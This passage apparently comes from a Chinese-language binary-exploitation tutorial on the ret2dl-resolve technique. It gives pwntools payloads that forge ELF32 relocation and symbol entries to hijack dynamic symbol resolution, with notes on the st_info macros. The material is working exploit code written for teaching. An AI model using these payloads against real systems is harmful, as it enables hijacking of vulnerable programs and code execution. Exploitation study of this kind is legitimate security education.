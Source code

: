 ```python
payload_5 += p32(reloc_index)
payload_5 += "AAAA"
payload_5 += p32(1)
payload_5 += p32(base_addr + 80)
payload_5 += p32(len("/bin/sh"))
payload_5 += fake_reloc
payload_5 += "A" * align
payload_5 += fake_sym
payload_5 += "A" * (80 - len(payload_5))
payload_5 += "/bin/sh\x00"
payload_5 += "A" * (100 - len(payload_5))

io.sendline(payload_5)
print io.recv()
```
一样地讲一下 st_info 的解析和插入算法：
```C
#define ELF32_ST_BIND(val)      (((unsigned char) (val)) >> 4)
#define ELF32_ST_TYPE(val)      ((val) & 0xf)
#define ELF32_ST_INFO(bind, type)   (((bind) << 4) + ((type) & 0xf))
```
- `ELF32_ST_BIND(0x12) = (((unsigned char) (0x12)) >> 4) = 0x1`，即 `#define STB_GLOBAL 1 /* Global symbol */`
- `ELF32_ST_TYPE(0x12) = ((0x12) & 0xf) = 0x2`，即 `#define STT_FUNC 2 /* Symbol is a code object */`
- `ELF32_ST_INFO(0x1, 0x2) = (((0x1) << 4) + ((0x2) & 0xf)) = 0x12`，即 st_info

下一步，是将 `st_name` 指向我们伪造的字符串 "write"，payload 如下：
```python
reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align

r_sym = (fake_sym_addr - dynsym) / 0x10
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)

st_name = fake_sym_addr + 0x10 - dynstr     # address of string "write"
st_bind = 0x1   # STB_GLOBAL -> Global symbol
st_type = 0x2   # STT_FUNC -> Symbol is a code object
st_info = (st_bind << 4) + (st_type & 0xf)  # 0x12
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)

payload_6 = "AAAA"
payload_6 += p32(plt_0)
payload_6 += p32(reloc_index)
payload_6 += "AAAA"
payload_6 += p32(1)
payload_6 += p32(base_addr + 80)
payload_6 += p32(len("/bin/sh"))
payload_6 += fake_reloc
payload_6 += "A" * align
payload_6 += fake_sym
payload_6 += "write\x00"
payload_6 += "A" * (80 - len(payload_6))
payload_6 += "/bin/sh\x00"
payload_6 += "A" * (100 - len(payload_6))

io.sendline(payload_6)
print io.recv()
```
